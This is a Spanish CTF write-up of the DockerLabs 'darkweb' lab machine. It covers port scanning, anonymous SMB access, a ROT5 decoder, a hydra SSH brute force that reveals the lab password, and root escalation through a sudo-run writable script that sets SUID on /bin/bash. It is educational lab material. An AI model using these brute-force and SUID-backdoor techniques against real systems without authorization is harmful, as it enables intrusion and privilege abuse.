 # DARKWEB - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina darkweb. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./darkweb.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: difícil
- Sistema Operativo: linux
- Autor: d1se0

## ESQUEMA

![darkweb](https://github.com/user-attachments/assets/42247b9d-2666-4db2-b370-dbb457082104)

## ENUMERACIÓN

### conectividad y SO

Primero comprobamos la conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/35938246-7515-4671-a156-07d90b5070aa)

Recibimso respuesta. Como el TTL es de 64, sabemos que la máquina usa Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/42d88979-8129-4c01-a5db-7cc0bd742821)

#### puertos abiertos

**22 - TCP - SSH**

**139 - TCP - SMB**

**445 - TCP - SMB**

Ahora hacemos un escaneo de versiones y servicios sobre estos tres puertos:

```python
nmap -p22,139,445 -sCV 172.17.0.2 -oN targeted
```

> `-p22,139,445` hacer el escaneo solo sobre los puertos 22, 139 y 445

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/8a6d0c39-2276-43e8-b533-45893282deaa)

### puerto 445

Listamos los recursos de red compartidos por el servicio SMB, sin autenticación:

```python
smbclient -L //172.17.0.2 -N
```

![image](https://github.com/user-attachments/assets/d98586c3-5284-49e9-8d87-a16da65444d5)

Vemos un recurso interesante llamado `darkshare`. Nos intentamos conectar sin autenticar:

```python
smbclient //172.17.0.2/darkshare -N
```

![image](https://github.com/user-attachments/assets/e862c5b0-a9dd-46de-a9e7-3ef4b7db8df5)

Vemos todos esos archivos de texto. Nos los descargamos con el comando `get` y los vamos inspeccionando en local.

El archivo `ilegal.txt` es el único con información interesante:

![image](https://github.com/user-attachments/assets/42f23bc5-6e66-41c9-aca0-9ef34773f037)

Parece tener un texto cifrado. Abajo del texto pone "usa 5, tu me entiendes". Esto podría hacer referencia al cifrado ROT5, en el que se aplica una rotación de 5 caracteres al texto. 'a' corresponde a 'f', 'b' corresponde a 'g'... Creamos un script sencillo en python3 para poder descifrar ROT5:

```python
#!/usr/bin/python3

def descifrar(texto):

    abecedario = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']

    texto_descifrado = ""

    for caracter in texto:

        if caracter == " ":
            texto_descifrado += " "
            continue

        if caracter in abecedario:

            caracter_descifrado = abecedario[abecedario.index(caracter) - 5]

            texto_descifrado += caracter_descifrado

            continue

        texto_descifrado += caracter

    print(texto_descifrado)

def main():

    print("Ingresa el texto codificado:")
    texto_cifrado = input("")

    descifrar(texto_cifrado.lower())

if __name__ == '__main__':

    main()
```

Ahora desciframos el texto cifrado:

![image](https://github.com/user-attachments/assets/b8ad1529-8905-4831-928b-6120a1d17fec)

### dominio onion

Se nos revela un dominio onion. Para conectarnos tendremos que hacer uso de la red TOR. Esto se puede hacer de manera muy simple con el navegador Brave:

![image](https://github.com/user-attachments/assets/5730554f-38a2-49fe-a0df-1f62856e17aa)

Le damos a "Nueva conexión Tor para este sitio". Luego esperamos a que se conecte a TOR, y cargamos el dominio:

![image](https://github.com/user-attachments/assets/f1fd7785-c28f-4c67-9064-4dc294fd48a0)

Vemos una página con varias categorías. Ninguna funciona excepto en la que pone "Access the Dark Web". Si clicamos, nos lleva a un `darkweb.html`:

![image](https://github.com/user-attachments/assets/aa4a10f4-1d8f-4716-b285-b4c02c0d2ab8)

No hay nada interesante, pero en el apartado "Hidden Marketplace", hay un producto llamado "Confidential List's Passwords", que nos lleva a un diccionario con varias contraseñas:

![image](https://github.com/user-attachments/assets/30939f96-d7de-4141-afb4-7349f99d6d2f)

## INTRUSIÓN

Vemos que en todas estas contraseñas encontramos varias veces la palabra "dark", además que está relacionada con la temática de la web. Podemos hacer un ataque de fuerza bruta por SSH sobre el posible usuario dark, usando el diccionario que acabamos de encontrar:

```python
hydra -l dark -P password_list.txt ssh://172.17.0.2
```

![image](https://github.com/user-attachments/assets/d607352b-7dd2-46bd-8348-83e0efa90655)

Al parecer, el usuario dark existe, y su contraseña es "oniondarkgood". Nos conectamos:

```python
ssh dark@172.17.0.2
```

## ESCALADA DE PRIVILEGIOS

### root

Siendo el usuario dark, ejecutamos `sudo -l` para ver nuestros privilegios de sudo:

![image](https://github.com/user-attachments/assets/d9a9fcc8-b697-4131-875b-36e5967aade6)

Podemos ejecutar como cualquier usuario, sin usar contraseña, el script `/home/dark/hidden.py`. Miramos a ver el código de este script:

![image](https://github.com/user-attachments/assets/7490d092-59c7-45d7-b361-44b1ccc4f538)

Al parecer se ejecuta el script en bash `/usr/local/bin/Update.sh`. Ejecutamos `ls -l /usr/local/bin/Update.sh`:

![image](https://github.com/user-attachments/assets/b72bd1d8-8086-40a6-936a-c8f9ff5dca23)

El usuario dark es el propietario del script, así que podemos controlar lo que el script de python ejecuta, y como lo podemos ejecutar con sudo, tenemos una forma de ejecutar comandos como root. Ya por defecto el contenido del script en bash es `chmod u+s /bin/bash`, así que simplemente ejecutamos el script en python con sudo:

```python
sudo /home/dark/hidden.py
```

![image](https://github.com/user-attachments/assets/9772eca5-2f56-4067-83ee-7ba9a29e2eb6)

Vemos que la bash ahora es SUID. Ejecutamos `bash -p`:

![image](https://github.com/user-attachments/assets/6f0af47b-276b-4edf-80df-38a52ae3d964)

Y ganamos una bash como root en la máquina Darkweb.